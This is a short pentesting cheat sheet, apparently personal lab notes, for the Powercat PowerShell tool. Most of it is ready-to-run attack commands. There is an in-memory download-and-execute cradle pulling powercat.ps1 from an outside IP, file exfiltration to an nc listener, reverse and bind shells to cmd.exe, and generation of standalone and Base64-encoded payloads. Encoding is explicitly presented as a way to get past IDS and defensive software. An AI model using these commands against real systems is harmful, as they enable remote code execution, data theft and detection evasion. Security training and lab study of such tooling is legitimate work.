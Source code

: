 # Powercat

## Powercat Options

```
powercat -h

-l option to create a listener
-c option specifies client mode and sets the listening IP address
-p specifies the port number to connect to
-i indicates the local file that will be transferred remotely
-g option to redirect the output to a file
-e to generate a stand-alone encoded payload
```

## Loading Powercat

```
PS C:> . .\powercat.ps1
```

Note powercat.ps1 loaded as above is only available to the current PowerShell instance

Alternatively, can use `iex` to load downloaded powercat.ps1 script in memory and user powercat directly:

`PS C:> iex (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -c 192.168.119.189 -p 443 -e cmd.exe`

## File Transfer

```
powercat -c 192.168.119.189 -p 443 -i C:\Users\Administrator\file.txt
```

```
sudo nc -lnvp 443 > file.txt
```

## Reverse/Bind Shells

```
powercat -c 192.168.119.189 -p 443 -e cmd.exe
```

```
powercat -l -p 443 -e cmd.exe
```

{% content-ref url="../../collections/reverse-shell/powershell.md" %}
[powershell.md](../../collections/reverse-shell/powershell.md)
{% endcontent-ref %}

{% content-ref url="../../collections/bind-shell/powershell.md" %}
[powershell.md](../../collections/bind-shell/powershell.md)
{% endcontent-ref %}

## Powercat stand-alone payloads

`-g` option

```
PS C:\Users\Administrator> powercat -c 192.168.119.189 -p 443 -e cmd.exe -g > reverseshell.ps1
PS C:\Users\Administrator> ./reverseshell.ps1
```

It’s worth noting that:

* stand-alone payloads like this one might be easily detected by IDS.&#x20;
* the script that is generated is rather large with roughly 300 lines of code.&#x20;
* it also contains a number of hardcoded strings that can easily be used in signatures for malicious activity.&#x20;
* plaintext malicious code such as this will likely have a poor success rate and will likely be caught by defensive software solutions.

### Encoded payloads

We can attempt to overcome this problem by making use of PowerShell’s ability to execute Base64 encoded commands:

`-e` option

```
// reverse shell
PS C:\> powercat -c 192.168.119.189 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1

// bind shell
PS C:\> powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1
```

The file will contain an encoded string that can be executed using the PowerShell -E (EncodedCommand) option. Just need to pass the whole encoded string to powershell.exe -E:

```
PS C:\> powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACA[...]
```

